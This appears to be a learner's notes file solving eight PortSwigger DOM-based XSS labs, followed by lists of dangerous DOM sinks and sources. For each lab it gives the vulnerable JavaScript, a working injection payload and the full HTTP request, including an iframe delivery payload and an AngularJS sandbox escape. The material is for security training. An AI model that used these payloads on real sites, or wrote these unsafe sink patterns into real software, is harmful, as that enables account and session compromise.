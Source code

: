 // 1
// Lab: DOM XSS in document.write sink using source location.search 
// https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink

// original Java script:
    function trackSearch(query) {
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        trackSearch(query);
    }

// full path:
    GET /?search=">'<script>alert(document.domain)</script><"' HTTP/1.1

// payload:
    ">'<script>alert(document.domain)</script><"'


// #########



// 2
// Lab: DOM XSS in document.write sink using source location.search inside a select element
// https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element

// original Java script:

    var stores = ["London","Paris","Milan"];
    var store = (new URLSearchParams(window.location.search)).get('storeId');
    document.write('<select name="storeId">');
    if(store) {
        document.write('<option selected>'+store+'</option>');
    }
    for(var i=0;i<stores.length;i++) {
        if(stores[i] === store) {
            continue;
        }
        document.write('<option>'+stores[i]+'</option>');
    }
    document.write('</select>');

// payload:
<script>alert(1)</script>


// full path
GET /product?productId=3&storeId=<script>alert(1)</script> HTTP/1.1
// (i didnt close the tags - just wrote the script since it reflects as is anyway...)

// portswiggers solution: 
GET /product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)> HTTP/1.1



// 3
// Lab: DOM XSS in innerHTML sink using source location.search
// https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink


// original Java script:
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}



// payload:
<img%20src=1%20onerror=alert(1)>

// full path:
GET /?search=<img%20src=1%20onerror=alert(1)> HTTP/1.



// 4.
// Lab: DOM XSS in jQuery anchor href attribute sink using location.search source
// https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink


// original script:
$(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});


// payload:
?returnPath=javascript:alert(document.domain)

// full path:
GET /feedback?returnPath=javascript:alert(document.domain) HTTP/1.1


// 5.
// DOM XSS in jQuery selector sink using a hashchange event
// https:/portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event


// original script:

$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});



// payload:
```htm
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=print(1)>'">
```

```htm
<iframe src="https://ac201fda1fe56926c03d960700870032.web-security-academy.net#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```
{/* to be stored on attacker server and deliverd as url */}





{/* 6. */}
{/* Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded */}
{/* https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression */}

{/* vulnerable code: */}
<body ng-app="" class="ng-scope">
    <input type="text" placeholder="Search the blog..." name="search">
  
{/* payload:                       */}
    {{$on.constructor('alert(1)')()}}
        
// full path:
GET /?search={{$on.constructor('alert(1)')()}} HTTP/1.1





// 7.
// DOM XSS combined with reflected and stored data
// https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected

original script:

function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);
    xhr.send();

// the vulnrable line:
    eval('var searchResultsObj = ' + this.responseText)

// payload:
\"-alert(1)}//


eval('var searchResultsObj = ' +  \"-alert(1)}//


HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 46

{"results":[],"searchTerm":" \\"-alert(1)}//




// 8.
// Stored DOM XSS
// https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored


payload:
<><img src=1 onerror=alert(1)>

// he website uses the JavaScript replace() function
// including an extra set of angle brackets at the beginning of the comment. These angle brackets will be encoded, but any subsequent angle brackets will be unaffected,






Portwsigger cheetsheet:
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet








# ***Which sinks can lead to DOM-XSS vulnerabilities?***

// The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent

// The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()


// The following are typical sources that can be used to exploit a variety of taint-flow vulnerabilities:
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database

//

// DOM-based vulnerability 	Example sink
// DOM XSS LABS 	document.write()
// Open redirection LABS 	window.location
// Cookie manipulation LABS 	document.cookie
// JavaScript injection 	eval()
// Document-domain manipulation 	document.domain
// WebSocket-URL poisoning 	WebSocket()
// Link manipulation 	element.src
// Web message manipulation 	postMessage()
// Ajax request-header manipulation 	setRequestHeader()
// Local file-path manipulation 	FileReader.readAsText()
// Client-side SQL injection 	ExecuteSql()
// HTML5-storage manipulation 	sessionStorage.setItem()
// Client-side XPath injection 	document.evaluate()
// Client-side JSON injection 	JSON.parse()
// DOM-data manipulation 	element.setAttribute()
// Denial of service 	RegExp()
